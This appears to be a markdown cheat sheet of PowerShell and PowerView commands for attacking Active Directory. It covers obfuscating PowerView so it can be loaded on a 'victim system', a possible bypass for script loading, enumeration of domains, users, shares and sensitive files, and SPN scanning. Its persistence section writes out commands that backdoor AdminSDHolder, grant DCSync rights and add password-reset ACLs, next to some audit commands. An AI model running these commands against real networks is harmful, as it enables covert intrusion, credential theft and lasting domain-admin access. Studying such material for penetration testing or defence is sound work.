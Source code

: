 # Active Direcroty Enumeration CMDs
<p>PS = PowerShell</p>
<p>PV = PowerView</p>
<p>FP = Find-PSServiceAccounts</p>

**Active Directory PS** Import Modules - Windows 10
```powershell
Import-Module ServerManager
Add-WindowsFeature RSAT-AD-PowerShell
```
**PowerView** Import Modules - Windows 10

_Pre Install Steps_ on Dev System
```powershell
get-executionpolicy -List 							# Shows current executionpolicy
set-executionpolicy -ExecutionPolicy Unrestriced 	# Allows .ps1 script to be imported and/or executed
Import-Module Invoke-Obfusctation.ps1
Out-obfuscationTokenCommand -Path \Path\to\PowerView.ps1 |Out-File $ObfuscatedPowerViewFilename
```

_Obfuscated PowerView_ Import on Victim System
```powershell
Import-Module $ObfuscatedPowerViewFilename
```

**Potential Bypass for PowerView Loading**
```powershell
cd c:\AD\Tool\		# Probably need to create this dir or something similar
. .\PowerView.ps1	# I wonder if it's the '.' that provides the path to bypass?
```

## Domain Enumeration

**Get Current Domain:NonPS*::*
```powershell
$ADClass = [System.DirectoryServices.ActiveDirectory.Domain]

$ADClass::GetCurrentDomain()
```

**Current Domain:PV::** `Get-NetDomain`

**Current Domain:PS::** `Get-ADDomain`

**Domain Controllers::PS:** `Get-ADDomainController`

**Domain Controllers::PV:** `Get-NetDomainController`

**Domain Controllers for Another Domain::PV:** `Get-ADDomainController -Domain $domain.object`

**Domain Controllers for Another Domain::PS:** `Get-ADDomainController -DomainName $domian.object -Discover`

**Object of Another Domain:PV::** `Get-NetDomain -Domain $domain.object`

**Object of Another Domain:PS::** `Get-ADDomain -Identity $domain.object`

**Domain SID for current Domain:PV::** `(Get-ADDomain).DomainSID`

**Domain Policy for Current Domain:PV::** `(Get-DomainPolicy)."system access"`

**Domain Policy for Another Domain:PV::** `(Get-DomainPolicy -Domain $domian.object)."system access"`

**Shares in current domian:PV::** `Invoke-ShareFinder -Verbose`

**Find Sensitive Files on Computers in Domain:PV::** `Invoke-FileFinder -Verbose`

**Domain FileServers:PV::** `Get-NetFileServer`


## User Hunting
> Try and get an idea where users (specific) users are logged in.

**List Property Definitions:PS** 
```powershell
Get-ADUser -Filter * -Properties * | select -First 1 | Get-Member -MemberType *Property
```

 _Example_
 ```text
 Name                               MemberType            Definition                                                                                                                         
----                               ----------            ----------                                                                                                                         
Item                               ParameterizedProperty Microsoft.ActiveDirectory.Management.ADPropertyValueCollection Item(string propertyName) {get;}                                    
AccountExpirationDate              Property              System.DateTime AccountExpirationDate {get;set;}                                                                                   
accountExpires                     Property              System.Int64 accountExpires {get;set;}
```

**List of User Properties:PV::** `Get-UserProperty`

**List Users of X Group:PV::** `get-NetGroupMember -GroupName 'Domain Admins'`

**List Users where Description contains "built":FP**
```poweshell
finD-USerFiElD -SeARchfiEld Description -sEaRCHtErm "built"
```

**List Users where Description contains "built":PS**
```powershell
Get-ADUser -Filter 'Description -like "*built*"' -Properties Description | select SamAccountName,Description
```

**Account Bad Password Count & Logon Count * Pwd Last Set:PS::**

```powershell
Get-ADUser -Filter * -Properties SamAccountName,badPwdCount |select SamAccountName,BadPwdCount

Get-ADUser -Filter * -Properties SamAccountName,logonCount |Select-Object SamAccountName,LogonCount

Get-ADUser -Filter * -Properties PasswordLastSet |select SamAccountName,PasswordLastSet
```

*Identify machines inside the domain OR do reverse lookups via LDAP*

**PS::Hostnames:** `get-adcomputer –filter * -Properties ipv4address | where {$_.IPV4address} | select name,ipv4address`

**PS::IP Addresses:** `get-adcomputer -filter {ipv4address -eq '*IP*'} -Properties Lastlogondate,passwordlastset,ipv4address` <-- Currently Broken

**Domain Group Policies::PV:** `Get-NetGPO | select displayname,name,whenchanged`

**User Group Access Rights to Particular Group:** `Get-NetGroupMember 'Domain Admins' -Recurse`

**Get Domain Admins** & then tokenize all displaynames to requery for all users that match that patter
```powershell
Get-NetGroupMember -GroupName 'Domain Admins' -FullData | %{ $a=$_.displayname.split('')[0..1] -join ' '; Get-NetUser -Filter "(displayname=*$a*)" } | Select-Object -Property displayname,samaccountname
```
**Get list of all Forest Users:** `RetrieveAllUsersFromAD.ps1`

https://gallery.technet.microsoft.com/scriptcenter/Retrieve-All-Users-from-AD-b76e3443


### SPN Scanning

**Find-PSServiceAccounts** from github.com/PyroTek3/PowerShell-AD-Recon `Find-PSServiceAccounts`
> Disguised with _Invoke-Obfuscate_ via the 'default' means above, kinda makes it unusable. 
> Howerver, it doesn't look like internal controls stop this from just being sent into the envirnment.

**SPN with PS:** `Get-ADComputer -filter {ServicePrincipalName -Like "*SPN*" } -Properties OperatingSystem,OperatingSystemVersion,OperatingSystemServicePack,PasswordLastSet,LastLogonDate,ServicePrincipalName,TrustedForDelegation,TrustedtoAuthForDelegation`

### AD Schema

`Invoke-UserHunter -Stealth -ShowAll`

### Admin required CMDs

`get-netlocalgroup -computername $DomainController` 

**Actively Logged on Users:PV**
`get-netloggedon -computername $systemName` #requires Local Admin

**Locally Logged Users on Computer:PV**
`get-loggedonlocal -ComputerName $SystemName

**Lasted Logged User:PV**
`get-LastLoggedOn -ComputerName $SyetemName

### ACLs
**AD ACLs for given user:** `Get-ObjectACL -ResolveGUIDs -SamAccountName SamAccountName`

**Persitance**
*Add backdoored ACL.  Grant SamAccountName1 right to reset the password for SamAccountName2*
```PowerShell
Add-ObjectACL -TargetSamAccountName SamAccountName2 -PrincipalSamAccountName
SamAccountName1 -Rights ResetPassword
```

*Backdoor permissions for AdminSDHolder*
```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName SamAccountName1 -Verbose -Rights All
```
*Audit ACL rights for AdminSDHolder*
```powershell
Get-ObjectAcl -ADSprefix 'CN=AdminSDHolder,CN=System' -ResolveGUIDs | ?{$_.IdentityReference -match 'SamAccountName1'}
```

*Backdoor rights for DCSync*
```powershell
Add-ObjectACL -TargetDistinguishedName "dc=els,dc=local" -PrincipalSamAccountName SamAccountName1 -Rights DCSync
```

*Audit users who have DCSync rights*
```powershell
Get-ObjectACL -DistinguishedName "dc=els,dc=local" -ResolveGUIDs | ? {($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match'GenericAll') }
```

*Audit GPO Permission*
```powershell
Get-NetGPO | ForEach-Object {Get-ObjectAcl -ResolveGUIDs -Name $_.name} | WhereObject {$_.ActiveDirectoryRights -match 'WriteProperty'}
```

*Scan for non-standard ACL permission sets*
```powershell
Invoke-ACLScanner
```
### Domain Trusts
